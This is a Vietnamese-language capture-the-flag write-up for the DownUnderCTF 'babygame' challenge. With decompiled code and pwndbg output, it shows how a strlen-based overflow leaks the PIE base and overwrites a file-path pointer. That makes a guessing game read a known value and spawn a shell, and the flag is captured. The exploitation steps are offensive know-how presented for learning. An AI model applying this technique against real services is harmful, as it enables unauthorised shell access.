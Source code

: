 # Phân tích file

```python
babygame: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb63ec1c73b262295cbcef5af1abdbbab2424b80, for GNU/Linux 4.4.0, not stripped
```

```python
		Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# Reverse file

- Ta có hàm main như sau.
    
    ```python
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      int v3; // [rsp+Ch] [rbp-4h]
    
      init(argc, argv, envp);
      puts("Welcome, what is your name?");
      read(0, NAME, 0x20uLL);
      RANDBUF = "/dev/urandom";
      while ( 1 )
      {
        while ( 1 )
        {
          print_menu();
          v3 = get_num();
          if ( v3 != 1337 )
            break;
          game();
        }
        if ( v3 > 1337 )
        {
    LABEL_10:
          puts("Invalid choice.");
        }
        else if ( v3 == 1 )
        {
          set_username();
        }
        else
        {
          if ( v3 != 2 )
            goto LABEL_10;
          print_username();
        }
      }
    }
    ```
    
    - Yêu cầu ta nhập name với size 0x20 và gán "/dev/urandom" cho RANDBUF.
- Bài có các chức năng chính như sau
    
    ```python
    Welcome, what is your name?
    dinhvu
    1. Set Username
    2. Print Username
    >
    ```
    
- Set Username:
    
    ```python
    size_t set_username()
    {
      FILE *v0; // rbx
      size_t v1; // rax
    
      puts("What would you like to change your username to?");
      v0 = stdin;
      v1 = strlen(NAME);
      return fread(NAME, 1uLL, v1, v0);
    }
    ```
    
    - Ta thấy nó sẽ lấy độ dài của NAME input ta nhập vào làm size cho lần fread tiếp theo. Ở đây nếu NAME ta nhập 0x20 mà sau nó còn 1 địa chỉ nào đó thì strlen nó sẽ đọc đến khi nào gặp null nên strlen có thể trả về 1 giá trị lớn hơn 0x20 ⇒ Ta có thể nhập tràn qua các biến khác.
- Print Username:
    
    ```python
    int print_username()
    {
      return puts(NAME);
    ```
    
    - Chỉ đơn giản là in ra màn hình chuỗi NAME.
    

# Exploit

```python
pwndbg> x/10xg 0x5555555580a0
0x5555555580a0 <NAME>:  0x6161616161616161      0x000a616161616161
0x5555555580b0 <NAME+16>:       0x0000000000000000      0x0000000000000000
0x5555555580c0 <RANDBUF>:       0x0000555555556024      0x0000000000000000
```

- Ta có thể thấy NAME và RANDBUF là 2 vùng nhớ kề nhau nếu như ta nhập NAME là "a"*0x20 thì sẽ như sau
    
    ```python
    pwndbg> x/10xg 0x5555555580a0
    0x5555555580a0 <NAME>:  0x6161616161616161      0x6161616161616161 
    0x5555555580b0 <NAME+16>:       0x6161616161616161      0x6161616161616161
    0x5555555580c0 <RANDBUF>:       0x0000555555556024      0x0000000000000000
    ```
    
- Ta có thể thấy nếu ta dùng Print Username ta có thể leak được giá trị của RANDBUF và từ đó tính pie.
- Ta cũng có thể overflow RANDBUF qua hàm Set Username vì strlen(NAME) sẽ trả về 0x26 thay về 0x20 do đó ta có thể control được giá trị của RANDBUF.
- Tiếp theo là vào hàm game thông qua lựa chọn 1337.
    
    ```python
    unsigned __int64 game()
    {
      FILE *stream; // [rsp+8h] [rbp-18h]
      int ptr; // [rsp+14h] [rbp-Ch] BYREF
      unsigned __int64 v3; // [rsp+18h] [rbp-8h]
    
      v3 = __readfsqword(0x28u);
      stream = fopen(RANDBUF, "rb");
      fread(&ptr, 1uLL, 4uLL, stream);
      printf("guess: ");
      if ( (unsigned int)get_num() == ptr )
        system("/bin/sh");
      return v3 - __readfsqword(0x28u);
    }
    ```
    
    - Ta có thể thấy nó sẽ đọc 4 bytes từ RANDBUF mà RANDBUF ban đầu là "/dev/urandom" nên ta sẽ không đoán được, vậy ý tưởng sẽ là thay đổi biến RANDBUF thành 1 địa chỉ chứa chuỗi cố định thì các lần sau chạy sẽ luôn cho ra kết quả mà ta kiểm soát được và get shell.
    
    ```python
    pwndbg> search "/bin/sh"
    babygame        0x5555555560a3 0x68732f6e69622f /* '/bin/sh' */
    babygame
    ```
    
    - Sau khi xem qua thì mình thấy trong chương trình có 1 địa chỉ chứa "/bin/sh" nên mình sẽ dùng địa chỉ này ghi vào RANDBUF và kết quả nó sẽ luôn là 0x464c457f.
    
    ```python
    *RAX  0x464c457f
     ► 0x555555555425 <game+120>    cmp    dword ptr [rbp - 0x1c], eax
    ```
    
    - Giờ ta chỉ cần nhập guess là str(0x464c457f) sẽ lên được shell.

```python
[+] Opening connection to pwn-2021.duc.tf on port 31907: Done
[*] number: 0x55b06bd67024
[*] pie: 0x55b06bd65000
[*] bin_sh: 0x55b06bd670a3
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{whats_in_a_name?_5aacfc58}
$
```
